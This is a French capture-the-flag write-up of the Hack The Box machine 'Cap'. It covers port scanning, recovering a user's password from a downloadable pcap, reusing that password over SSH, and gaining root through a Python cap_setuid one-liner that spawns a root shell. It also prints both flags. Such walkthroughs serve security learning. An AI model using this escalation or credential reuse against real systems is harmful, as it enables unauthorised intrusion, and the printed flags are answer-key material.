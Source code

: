 ```yaml
---
title: "[HTB - Easy] Cap"
description: "Writeup by jsthope"
date: 2023-03-28T00:00:00+00:00
tags: ["HTB", "Easy", "writeup", 'FR']
type: post
image: /images/cap/cap.png
showTableOfContents: true
---
```

![HTB Cap Image](/images/cap/cap.png "HTB Cap Image")
# nmap
On va tout d’abord scanner les ports ouverts de l’ip:
```┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```
# http
Sur le site, on remarque qu'on est connecté de base à l'utilisateur "Nathan".
On trouve ensuite que le site permet de télécharger des trames réseaux:
http://10.10.10.245/data/0
On download le pcap numero 0 et on l'analyse ensuite avec Wireshark:
![pcap](/images/cap/pcap.png "pcap")

On trouve alors le mot de passe de Nathan (utilisé pour le ftp)

# ssh
Le mot de passe ftp de Nathan et le même que sur son ssh:
```
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```
On récupère alors le flag de l'user:
```
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd6713a9539c2c987b214d1a48bc21c
```
# privesc
On cherche si on a des vulnérabilités liées aux capabilities:
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
On voit tout de suite ici que python3.8 est sûrement vulnérable à un exploit de type setuid. 
On peut trouver les exploits de capabilities sur [gfobins](https://gtfobins.github.io/gtfobins/python/#capabilities):
```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
On est bien root !
Il ne reste plus qu'a récupérer le dernier flag:
```
# cat /root/root.txt
0987dc49d725b0d0f38fe7f6349b266c
```